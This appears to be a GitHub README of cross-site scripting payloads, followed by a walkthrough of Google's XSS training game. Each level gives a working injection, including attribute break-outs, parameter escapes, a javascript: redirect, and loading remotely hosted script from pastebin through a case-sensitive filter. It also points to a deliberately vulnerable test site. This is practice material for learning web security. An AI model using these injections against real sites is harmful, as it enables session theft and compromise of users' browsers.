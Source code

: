 # Alert
```js
<script>alert("Hello");</script>
```
# Image Hidden
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image

```js
<img+src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp">
```

# Test 
```url
https://xss-game.appspot.com/level1
```
- - Level 1

This is the most obvious and easiest one. Just insert following code and you're done:
```js
<script>alert(1)</script>
```
-------------------------------------------------------------------
- - Level 2

Since the `script` won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use `img` tags along with the `onerror` attributes. Here you go:
```js
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
```
--------------------------------------------------------------------
- - Level 3

Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see `index.html:`
```html
[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
```
As you see the `num` parameter is used to generate the `img` tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the `onerror` attribute to insert JS. Insert this into the URL address bar and you'll get your `alert()`:

- - Exploit
```url
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
```
---------------------------------------------------------------
- - Level 4

This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting `https://xss-game.appspot.com/level4/frame?timer='` showed me following output:

```js
SyntaxError: unterminated string literal

startTimer(''');
```

Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal

    startTimer('')');
```

- https://xss-game.appspot.com/level4/frame?timer=');

```js
   SyntaxError: unterminated string literal


    startTimer('')');
```

And then I've decided to use some URL encoding: `%3B` represents the semi-colon.

- https://xss-game.appspot.com/level4/frame?timer=')%3B

```js
   SyntaxError: unterminated string literal


    startTimer('');');
```

Aha.. There you go! We can terminate the call and insert other ones. The final request:

- https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in


```js
startTimer('');alert(1);var b=('');
```

Boom: Nice one!

----------------------------------------------------------------------


- - Level 5

This one was quite easy. On the first page you can see a link: `https://xss-game.appspot.com/level5/frame/signup?next=confirm`. Now let's have a look how this `next` parameter is used in `confirm.html`:

```js
[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
```

So the window.location is set based on the `next` parameter. This is a typical case for DOM based XSS. Besides that we have in `signup.html`:

```js
[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
```

Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
- Insert your Mail
- Click Next >>
- Voila!

-------------------------------------------------------------------------------

- - Level 6

This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```js
[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
```
Afterwards the text after the hash is used as the scripts src:

```js
// Load this awesome gadget
scriptEl.src = url;
```

Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the `final PoC`:

- https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0

# Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

#####################################################################################

# test 2
```
http://testphp.vulnweb.com/
```
# find POST GET or input and exploit him

- - example:
```html
<form action="" method="GET">
  <input id="query" name="query" value="Enter query here..." onfocus="this.value=''">
  <input id="button" type="submit" value="Search">
</form>
```

- - MOre: https://owasp.org/www-community/xss-filter-evasion-cheatsheet
